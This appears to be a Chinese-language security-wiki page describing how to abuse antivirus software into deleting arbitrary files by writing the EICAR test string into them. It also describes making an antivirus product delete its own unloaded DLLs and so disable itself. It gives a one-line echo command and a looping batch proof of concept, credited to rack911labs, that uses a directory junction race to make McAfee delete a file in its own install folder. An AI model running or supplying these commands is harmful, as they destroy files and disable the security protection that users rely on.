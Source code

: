 # 利用杀毒软件删除任意文件

## 简介

通常，下载一个未知文件保存到硬盘后，杀毒软件通常会在短时间进行实时扫描，如果确定为可疑或威胁，该文件会被自动隔离，并询问用户是否处理。

考虑到杀毒软件几乎都已高权限运行，这样就为我们对杀毒软件利用产生了条件，我们可以往一个合法文件里写入恶意代码特征，然后利用杀毒软件帮我去删除这个文件，当然前提是这个文件当前没有使用。

## 测试字符串

```text
X5O!P%@AP[4\PZX54(P^)7CC)7}$EICAR-STANDARD-ANTIVIRUS-TEST-FILE!$H+H*
```

> **来自维基百科:**
>
> **EICAR标准反病毒测试文件**，又称**EICAR测试文件**, 是由[欧洲反计算机病毒协会](https://zh.wikipedia.org/wiki/%E6%AC%A7%E6%B4%B2%E5%8F%8D%E8%AE%A1%E7%AE%97%E6%9C%BA%E7%97%85%E6%AF%92%E5%8D%8F%E4%BC%9A)（EICAR）与[计算机病毒研究组织](https://zh.wikipedia.org/w/index.php?title=%E8%AE%A1%E7%AE%97%E6%9C%BA%E7%97%85%E6%AF%92%E7%A0%94%E7%A9%B6%E7%BB%84%E7%BB%87&action=edit&redlink=1)（CARO）研制的文件, 用以测试[杀毒软件](https://zh.wikipedia.org/wiki/%E6%9D%80%E6%AF%92%E8%BD%AF%E4%BB%B6)的响应程度。不同于使用可能造成实际破环的实体恶意软件，该文件允许人们在没有计算机病毒的情况下测试杀毒软件。
>
> 杀毒软件的开发者将EICAR字符串视为测试病毒，与其他鉴别标识相似。合格的病毒扫描器在发现文件时，会精确地采用相同方式处置，如同发现一个严重的病毒时那样。注意并非所有病毒扫描器是合格的，有些病毒扫描器会在精确识别后保留文件。
>
> EICAR测试字符的用法要比直接测试灵活：包含EICAR测试字符的文件会被[压缩](https://zh.wikipedia.org/wiki/%E6%95%B0%E6%8D%AE%E5%8E%8B%E7%BC%A9)或者[存档](https://zh.wikipedia.org/wiki/%E5%AD%98%E6%A1%A3)，并且杀毒软件会尝试删除压缩文件中的测试字符。

简单的说为了测试杀毒软件的性能,所有厂商都会把这个测试字符串当作病毒处理。

![](../.gitbook/assets/image%20%2879%29.png)

预想一个场景，在杀毒软件运行时考虑到内存占用可能并不会加载所有自身dll，那我们往这个未加载的dll里写入这个测试字符串，这样杀毒软件就会自己干掉自己，等到需要用到这个功能dll的时候，这个功能就会失效。

## 利用流程

1. 往文件写入测试字符串

## 利用代码

```text
echo X5O!P%@AP[4\PZX54(P^^)7CC)7}$EICAR-STANDARD-ANTIVIRUS-TEST-FILE!$H+H*  > <FILENAME>
```

## 扩展利用

windows提供了一个目录链接功能，只能将两个目录链接在一起。它不能链接文件，并且目录必须在文件系统本地。目录连接可以由任何用户执行，并且不需要管理员特权，因此非常适合在Windows操作系统下利用防病毒软件进行利用。

此poc来自rack911labs:

```text
:loop
rd /s /q C:\Users\Username\Desktop\exploit
mkdir C:\Users\Username\Desktop\exploit
echo X5O!P%@AP[4\PZX54(P^^)7CC)7}$EICAR-STANDARD-ANTIVIRUS-TEST-FILE!$H+H* > C:\Users\Username\Desktop\exploit\EpSecApiLib.dll
rd /s /q C:\Users\Username\Desktop\exploit
mklink /J C:\Users\Username\Desktop\exploit “C:\Program Files (x86)\McAfee\Endpoint Security\Endpoint Security Platform”
goto loop
```

## LINKS

{% embed url="https://zh.wikipedia.org/wiki/EICAR%E6%A0%87%E5%87%86%E5%8F%8D%E7%97%85%E6%AF%92%E6%B5%8B%E8%AF%95%E6%96%87%E4%BB%B6" %}

{% embed url="https://www.rack911labs.com/research/exploiting-almost-every-antivirus-software/" %}

